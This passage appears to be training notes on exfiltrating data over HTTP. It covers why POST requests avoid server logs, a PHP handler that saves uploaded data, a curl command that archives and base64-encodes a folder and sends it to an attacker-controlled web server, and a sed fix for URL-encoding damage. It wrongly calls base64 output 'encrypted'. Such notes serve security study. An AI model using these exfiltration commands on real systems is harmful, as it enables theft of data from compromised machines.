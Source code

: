 # HTTPS
We can also use HTTP/HTTPS protocol to exfiltrate data from a target to our machine. As a requirement for this technique, an attacker needs control over a webserver with a server-side programming language installed and enabled. For this demonstration we will use PHP but it can be implemented with any other (Node, python, Golang, etc.)
## HTTP POST Request
Exfiltration data through the HTTP protocol is **one of the best options** because it is challenging to detect. It is tough to distinguish between legitimate and malicious HTTP traffic. We will use the POST HTTP method for this, because if we use a GET request, all parameters are registered into the log file. While with a POST request, they don't. Besides some other benefits
- POST requests are never cached
- POST requests do not remain in the browser history
- POST requests cannot be bookmarked
- POST requests have no restrictions on data length
We can now inspect the Apache log file with HTTP requests, and check what they look like.
```bash
cat /var/log/apache2/access.log
```
In a typical real-world scenario, an attacker controls a webserver in the cloud somewhere on the Internet. Ana agent or command is executed from a compromised machine to sent the data outside the compromised machine's network over the internet into the webserver. Then an attacker can log in to a web server to get the data.
![[Pasted image 20240624211349.png]]

## HTTP Data Exfiltration
Based on the attacker configuration, we can set up either HTTP or HTTPS. We also need a PHP page that handles the PSOT HTTP request sent to the server. We will be using HTTP in this case.
To exfiltrate data, we can apply the following steps:
- We set up a web server with a data handler.
- A C2 agent or an attacker send the data. In this case, we will be using the `curl` command
- The webserver receives the data and stores it.
- We finally log into the webserver to copy all of the received data somewhere else.
Now, since we are using HTTP, all the data will be sent in cleartext. However, we can always use other techniques (tar and base64) to change the data's string format so that it wouldn't be in a human-readable format.
First we prepare a webserver with a data handler for this task. 
```php
<?php
	if(isset($_POST['file'])){
		$file = fopen("/tmp/http.bs64","w");
		fwrite($file, $_POST['file']);
		fclose($file);
	}
?>
```
The previous code is to handle POST request via `file` parameter and stores the received data in the `/tmp` directory as `http.bs64` file name.
Now from the target machine we are going to exfiltrate the data over the HTTP protocol, by using the `curl` command to send a HTTP POST request with the content of the folder we want to exfiltrate
```bash
curl --data "file=$(tar zcf - folder | base64)" http://web.server/handler.php
```
With this, we created an encrypted archived file that will send a POST request via the `file` parameter. Now, if we go to `/tmp` we will find our file with our encrypted data. Though, in checking the file, it will be broken up, this happens due to the URL encoding over the HTTP. The `+` symbol has been replaced with empty spaces, we can fix this with the `sed` command.
```bash
sudo sed -i 's/ /+/g' /tmp/http.bs64
```
Using this command, we just replaced the spaces with `+` characters to make it a valid base64
```bash
```